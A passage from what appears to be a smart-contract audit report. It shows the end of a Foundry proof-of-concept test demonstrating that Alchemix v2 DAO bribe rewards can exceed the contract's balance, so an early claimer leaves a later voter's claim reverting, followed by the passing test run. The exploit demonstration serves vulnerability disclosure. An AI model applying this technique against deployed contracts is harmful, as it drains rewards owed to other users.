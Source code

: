 ```solidity

        // However, bribe contract will not be able to conver all earned rewards now
        uint256 aliceEarned = IBribe(bribeAddress).earned(bal, aliceTokenId);
        uint256 bobEarned = IBribe(bribeAddress).earned(bal, bobTokenId);
        assertGe(
            aliceEarned + bobEarned,
            IERC20(bal).balanceOf(bribeAddress)
        );

        // If Bob claim bribe before Alice, Alice will not be able to claim his bribe
        hevm.prank(bob);
        voter.claimBribes(bribes, tokens, bobTokenId);
        // when he try the call will revert with
        hevm.expectRevert(abi.encodePacked("ERC20: transfer amount exceeds balance"));
        hevm.prank(alice);
        voter.claimBribes(bribes, tokens, aliceTokenId);
    }
}
```

#### Test Output

```bash
alchemix-v2-dao main* 1m17s
❯ make test_file
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/*** --match-path src/test/VotingPoC.t.sol -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingPoC.t.sol:VotingPoCTest
[PASS] testTheftOfUnclaimedBribes() (gas: 5667267)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 65.12s (52.86s CPU time)

Ran 1 test suite in 66.38s (65.12s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```